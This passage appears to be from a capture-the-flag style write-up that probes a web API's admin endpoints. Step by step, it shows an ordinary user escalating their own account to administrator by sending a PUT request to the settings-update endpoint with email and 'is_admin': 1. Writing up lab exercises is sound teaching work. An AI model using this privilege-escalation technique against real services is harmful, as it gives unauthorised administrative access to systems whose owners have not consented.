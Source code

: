 ```json
}
```

From this response we see that apart from `/api/v1/user` there is also `/api/v1/admin` with 3 different urls underneath it.

`GET /api/v1/admin/auth`:
```json
{
	"message":false
}
```

So our user is not an admin.\
Perhaps we can use the POST request to generate an admin VPN.

`POST /api/v1/admin/vpn/generate`:
```
HTTP/1.1 401 Unauthorized
```
No luck.\
We can try the last one too.

`PUT /api/v1/admin/settings/update`:
```json
{
	"status":"danger",
	"message":"Invalid content type."
}
```
No errors!\
We can try some stuff with it.

First of all, we can add `Content-Type: application/json` to our request:
```json
{
	"status":"danger",
	"message":"Missing parameter: email"
}
```

We now need to figure out all the info needed for the PUT request.\
We can try to add `{"email": "<user-email>"}`:
```json
{
	"status":"danger",
	"message":"Missing parameter: is_admin"
}
```

We can try to add `"is_admin": true`:
```json
{
	"status":"danger",
	"message":"Variable is_admin needs to be either 0 or 1."
}
```
We will fix the last variable to `"is_admin": 1`:
```json
{
	"id":15,
	"username":"<username>",
	"is_admin":1
}
```
Looks like a success!
